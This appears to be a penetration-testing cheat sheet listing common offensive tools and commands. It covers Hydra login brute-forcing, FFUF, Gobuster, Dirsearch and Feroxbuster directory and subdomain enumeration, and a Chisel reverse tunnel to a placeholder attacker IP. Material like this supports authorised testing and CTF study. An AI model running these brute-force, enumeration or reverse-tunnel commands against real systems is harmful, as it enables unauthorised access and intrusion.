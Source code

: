 
## BRUTE FORCE TOOLS
---
### Hydra
- **Purpose**: Perform brute-force attacks on login forms.
- **Commands**:
  ```bash
  hydra -l <USER> -P <WORDLIST> <IP> http-post-form "/login.php:username=^USER^&password=^PASS^:incorrect" -t 64 -F
  ```

## DIRECTORY AND SUBDOMAINS ENUMERATION TOOLS
---
### FFUF
- **Purpose**: Discover subdomains or hidden directories.
- **Command**:
  ```bash
  ffuf -u http://<URL>/ -w <WORDLIST> -H "Host: FUZZ.<URL>" -fw 522
  ```

### Gobuster
- **Purpose**: Enumerate subdomains and directories.
- **Commands**:
  ```bash
  gobuster vhost -u http://<URL> --append-domain -w <WORDLIST> -r
  ```

### Dirsearch
- **Purpose**: Identify hidden directories.
- **Command**:
  ```bash
  dirsearch -u <URL>
  ```

 
## MISCELLANEOUS TOOLS
---
### Chisel
- **Purpose**: Perform port forwarding.
- **Commands**:
  ```bash
  chisel server -p 8000 --reverse
  chisel client <ATTACKER_IP>:8000 R:<LOCAL_PORT>:127.0.0.1:<REMOTE_PORT>
  ```

### Ltrace
- **Purpose**: Trace dynamic library calls made by a program.

### Feroxbuster
- **Purpose**: Perform recursive directory scans.
- **Command**:
  ```bash
  feroxbuster -u <URL> -w <WORDLIST> -d 0 -t 100
  ```

